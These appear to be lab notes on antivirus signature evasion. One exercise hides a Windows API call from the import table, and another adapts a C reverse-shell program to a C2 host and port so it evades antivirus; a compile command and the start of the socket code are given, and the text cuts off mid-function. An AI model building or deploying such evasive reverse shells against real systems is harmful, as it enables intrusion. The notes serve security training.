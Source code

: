 ![[Signature Evasion Code Blocks-2.png]]
## Behavioral Signatures
---
Obfuscate the following C snippet, ensuring no suspicious API calls are present in the IAT.

```C
#include <windows.h>
#include <stdio.h>
#include <lm.h>

int main() {
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```

### Solution
---
Per the Microsoft Docs:

![[Signature Evasion Code Blocks-3.png]]
Already given in notes.
## All of them at once
---
Change the `C2Server` and `C2Port` variables to receive a reverse shell:

Note: When compiling with GCC you will need to add compiler options for `winsock2` and `ws2tcpip`. These libraries can be included using the compiler flags `-lwsock32` and `-lws2_32`


```C
x86_64-w64-mingw32-gcc final.c -o challenge.exe -lws2_32 -lwsock32
```

The requirements:

1. No suspicious library calls present
2. No leaked function or variable names
3. File hash is different than the original hash
4. Binary bypasses common anti-virus engines

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

```